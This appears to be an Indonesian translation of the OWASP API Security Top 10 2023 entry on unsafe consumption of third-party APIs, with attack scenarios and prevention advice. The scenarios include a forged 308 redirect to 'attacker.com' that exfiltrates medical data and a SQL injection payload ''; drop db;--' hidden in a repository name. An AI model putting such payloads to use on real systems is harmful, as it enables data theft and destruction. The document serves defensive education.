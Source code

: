 # API10:2023 Konsumsi API yang Tidak Aman

| Agen Ancaman/Vektor Serangan | Kelemahan Keamanan | Dampak |
| - | - | - |
| Khusus API : Kemungkinan Dieksploitasi **Mudah** | Meluas **Umum** : Kemungkinan Dideteksi **Sedang** | Teknis **Serius** : Khusus Bisnis |
| Mengeksploitasi masalah ini memerlukan penyerang untuk mengidentifikasi dan mungkin mengompromikan API/Layanan lain yang terintegrasi dengan API target. Biasanya, informasi ini tidak tersedia secara publik atau API/Layanan yang terintegrasi tidak mudah dieksploitasi. | Para pengembang cenderung percaya dan tidak memverifikasi titik akhir yang berinteraksi dengan API eksternal atau pihak ketiga, mengandalkan persyaratan keamanan yang lebih lemah seperti yang berkaitan dengan keamanan transportasi, otentikasi/otorisasi, dan validasi serta sanitasi input. Penyerang perlu mengidentifikasi layanan yang terintegrasi dengan API target (sumber data) dan, akhirnya, mengompromikannya. | Dampaknya bervariasi sesuai dengan apa yang dilakukan API target dengan data yang diambil. Eksploitasi yang berhasil dapat menyebabkan paparan informasi sensitif kepada aktor yang tidak diotorisasi, banyak jenis injeksi, atau penolakan layanan. |

## Apakah API Rentan?

Pengembang cenderung percaya data yang diterima dari API pihak ketiga lebih dari masukan pengguna. Hal ini terutama berlaku untuk API yang ditawarkan oleh perusahaan-perusahaan terkemuka. Karena itu, pengembang cenderung mengadopsi standar keamanan yang lebih lemah, misalnya dalam hal validasi dan sanitasi input.

API mungkin rentan jika:

* Berinteraksi dengan API lain melalui saluran yang tidak terenkripsi;
* Tidak memvalidasi dan menyaring data yang dikumpulkan dari API lain sebelum
  memprosesnya atau melewatkan data tersebut ke komponen yang lebih rendah;
* Mengikuti pengalihan tanpa pertimbangan;
* Tidak membatasi jumlah sumber daya yang tersedia untuk memproses respons layanan pihak ketiga;
* Tidak mengimplementasikan waktu habis untuk interaksi dengan layanan pihak ketiga;

## Contoh Skenario Serangan

### Skenario #1

Sebuah API mengandalkan layanan pihak ketiga untuk memperkaya alamat bisnis yang diberikan oleh pengguna akhir. Ketika alamat diberikan kepada API oleh pengguna akhir, alamat tersebut dikirim ke layanan pihak ketiga dan data yang dikembalikan kemudian disimpan dalam database lokal yang mendukung SQL.

Penjahat menggunakan layanan pihak ketiga untuk menyimpan muatan SQLi yang terkait dengan bisnis yang dibuat oleh mereka. Kemudian mereka menyerang API yang rentan dengan memberikan masukan khusus yang membuatnya menarik "bisnis jahat" mereka dari layanan pihak ketiga. Muatan SQLi akhirnya dieksekusi oleh database, menggantikan data ke server yang dikendalikan oleh penyerang.

### Skenario #2

Sebuah API terintegrasi dengan penyedia layanan pihak ketiga untuk menyimpan informasi medis sensitif pengguna. Data dikirim melalui koneksi aman menggunakan permintaan HTTP seperti di bawah ini:

```
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```

Penjahat menemukan cara untuk mengompromikan API pihak ketiga dan mulai memberikan respons `308 Permanent Redirect` untuk permintaan seperti di atas.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Karena API mengikuti pengalihan dari layanan pihak ketiga tanpa mempertimbangkannya, itu akan mengulangi permintaan yang sama persis termasuk data sensitif pengguna, kali ini ke server penyerang.

### Skenario #3

Seorang penyerang dapat menyiapkan repositori git yang diberi nama `'; drop db;--`.

Sekarang, ketika integrasi dari aplikasi yang diserang dilakukan dengan repositori jahat ini, muatan injeksi SQL digunakan pada aplikasi yang membangun kueri SQL yang percaya bahwa nama repositori adalah masukan yang aman.

## Cara Mencegah

* Saat mengevaluasi penyedia layanan, nilai posisi keamanan API mereka.
* Pastikan semua interaksi API terjadi melalui saluran komunikasi yang aman (TLS).
* Selalu validasi dan lakukan sanitasi data yang diterima dari API terintegrasi sebelum menggunakannya.
* Pertahankan daftar putih lokasi yang dikenal API terintegrasi dapat mengalihkan
  milik Anda: jangan mengikuti pengalihan tanpa pertimbangan.


## Referensi

### OWASP

* [Cheat Sheet Keamanan Layanan Web][1]
* [Kekurangan Injeksi][2]
* [Cheat Sheet Validasi Input][3]
* [Cheat Sheet Pencegahan Injeksi][4]
* [Cheat Sheet Perlindungan Lapisan Transport][5]
* [Cheat Sheet Pengalihan dan Pengalihan Tanpa Validasi][6]

### Eksternal

* [CWE-20: Validasi Input yang Tidak Tepat][7]
* [CWE-200: Paparan Informasi Sensitif kepada Aktor yang Tidak Diotorisasi][8]
* [CWE-319: Pengiriman Teks Terbuka Informasi Sensitif][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html